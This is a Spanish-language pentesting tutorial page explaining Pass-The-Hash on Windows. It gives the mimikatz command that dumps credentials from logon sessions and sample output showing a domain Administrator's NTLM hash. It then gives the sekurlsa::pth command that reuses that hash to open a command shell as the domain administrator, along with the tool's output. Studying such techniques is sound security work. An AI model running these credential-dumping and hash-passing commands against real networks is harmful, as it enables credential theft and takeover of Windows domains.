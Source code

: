 ```yaml
---
icon: passport
---
```


# Pass-The-Hash con Windows

Esta tecnica consiste en el protocolo de autenticacion `NTLM` con sus dichos `hashes` este protocolo de autenticacion es menos seguro que el de `kerberos`, pero cuando nosotros nos conectamos de forma remota o nos conectamos mediante una `IP` y no mediante un dominio en muchos casos pasara autenticarse mediante el protocolo `NTLM` pero si lo hacemos atraves de un dominio, podremos hacerlo mediante `kerberos`, por lo que con `NTLM` al ser menos seguro podremos realizar este tipo de tecnicas que vamos a ver ahora.

A dia de hoy se sigue utilizando a nivel local, pero podremos especificar a `Windows` que no queremos este tipo de autenticacion de una forma, pero no es muy recomendable, ya que muchas maneras de autenticacion pueden deshabilitarse y dar problemas.

Si nosotros hemos obtenido las credenciales del `Administrador` del dominio por ejemplo mediante las `logon sessions` utilizando `mimikatz` como hemos visto anteriormente:

```powershell
sekurlsa::logonpasswords
```

Info:

```
Authentication Id : 0 ; 7531224 (00000000:0072ead8)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 20/01/2025 10:23:12
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Hemos intentado `crackear` el `hash` `NTLM` pero pongamos que no hemos obtenido exito.

Pero lo que si podemos hacer es realizar un `Pass-The-Hash` con `mimikatz` utilizando el `hash` del `Administrador` de la siguiente forma:

```powershell
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:a87f3a337d73085c45f9416be5787d86
```

Lo que va hacer `mimikatz` es crear una nueva `logon session` dentro de esta maquina (Ya que somos `administradores` locales de esta maquina) va a sobreescribir el `hash` que haya asociada a ella en memoria por este `hash` del usuario `administrador`, despues va a copiar el `Token de acceso` que tenemos asociado a este proceso y se lo va añadir tambien a esta `logon session`, y una vez echo eso va a ejecutar una `cmd` como dicho usuario.

Info:

```
user    : Administrator
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a87f3a337d73085c45f9416be5787d86
  |  PID  3448
  |  TID  3228
  |  LSA Process is now R/W
  |  LUID 0 ; 7674536 (00000000:00751aa8)
  \_ msv1_0   - data copy @ 00000224E7C04E80 : OK !
  \_ kerberos - data copy @ 00000224E7D777C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000224E7679D38 (32) -> null
```

Y veremos algo asi:

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Y con esto ya tendremos un `cmd` como el usuario `Administrador` del dominio.
